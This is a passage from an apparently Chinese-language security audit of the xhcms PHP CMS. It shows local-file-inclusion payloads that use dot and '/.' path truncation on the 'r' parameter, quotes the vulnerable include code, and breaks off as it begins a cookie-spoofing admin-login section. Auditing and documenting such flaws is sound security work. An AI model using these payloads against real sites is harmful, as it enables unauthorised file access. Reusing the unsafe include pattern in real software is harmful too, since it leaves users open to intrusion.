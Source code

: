 . 截断成功。

```php
http://www.xhcms.com/?r=../1.txt........................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................
```



![image-20210218095614109](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210218095614109.png)

/. 截断，测试长度（205）

```php
http://www.xhcms.com/?r=../1.txt/././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././././
```

![image-20210218101939441](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210218101939441.png)

## 三、后台首页文件包含漏洞

同样的道理

```php
<?php
//单一入口模式
error_reporting(0); //关闭错误显示
$file=addslashes($_GET['r']); //接收文件名
$action=$file==''?'index':$file; //判断为空或者等于index
include('files/'.$action.'.php'); //载入相应文件
?>
```

## 四、cookie欺骗登录后台

对后台登录功能点审计。

首先从这段代码看看，为甚么访问后台动作 action 会等于 `login` ,

```php
<?php
//单一入口模式
error_reporting(0); //关闭错误显示
$file=addslashes($_GET['r']); //接收文件名
$action=$file==''?'index':$file; //判断为空或者等于index
include('files/'.$action.'.php'); //载入相应文件
?>
```
